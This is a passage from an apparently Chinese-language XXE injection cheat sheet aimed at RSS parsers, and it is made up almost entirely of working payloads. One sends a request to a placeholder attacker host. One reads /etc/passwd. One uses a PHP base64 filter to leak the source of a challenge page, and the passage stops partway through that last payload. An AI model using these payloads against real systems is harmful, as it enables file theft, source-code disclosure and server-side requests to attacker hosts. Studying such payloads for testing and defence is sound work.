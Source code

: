 #### [Ping back](#toc_ping-back)

对攻击者服务器发起简单的 HTTP 请求：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read file](#toc_read-file)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read source code](#toc_read-source-code)

使用 PHP base64 过滤器

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
```